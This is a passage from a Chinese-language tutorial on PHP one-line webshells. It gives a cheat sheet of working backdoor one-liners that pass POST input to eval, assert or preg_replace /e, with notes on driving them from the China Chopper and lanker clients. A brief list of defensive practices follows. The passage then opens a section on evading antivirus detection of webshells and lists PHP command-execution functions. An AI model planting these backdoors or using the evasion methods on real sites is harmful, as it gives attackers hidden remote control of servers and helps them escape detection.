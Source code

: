 ```
<?php eval_r($_POST[sb])?>
程序代码
<?php @eval_r($_POST[sb])?>
//容错代码
程序代码
<?php assert($_POST[sb]);?>
//使用lanker一句话客户端的专家模式执行相关的php语句
程序代码
<?$_POST['sa']($_POST['sb']);?>
程序代码
<?$_POST['sa']($_POST['sb'],$_POST['sc'])?>
程序代码
<?php
@preg_replace("/[email]/e",$_POST['h'],"error");
?>
//使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入
程序代码
<O>h=@eval_r($_POST[c]);</O>
程序代码
<script language="php">@eval_r($_POST[sb])</script>
//绕过<?限制的一句话
```

## 10.如何应对PHP一句话后门

我们强调几个关键点，看这文章的你相信不是门外汉，我也就不啰嗦了：

- 对PHP程序编写要有安全意识
- 服务器日志文件要经常看，经常备份
- 对每个站点进行严格的权限分配
- 对动态文件及目录经常批量安全审查
- 学会如何进行手工杀毒《即行为判断查杀》
- 时刻关注，或渗入活跃的[网络安全](http://www.uedbox.com/)营地
- 对服务器环境层级化处理，哪怕一个函数也可做规则



# 0x02webshell免杀

## 1. 执行函数

首先就是基于各类最常规的命令和代码执行函数的花样变形`如,拆分重组,动态执行,以此来躲避静态特征检测`,不过像有些高危函数默认就会被运维们禁掉,甚至高版本的php默认已经不让执行系统命令[如,php7],万一再开了安全模式,就更费劲了

php中一些常见的执行类型函数:

```
system()
exec()
shell_exec()
passthru()
proc_open()
`` 反引号执行系统命令
...
```
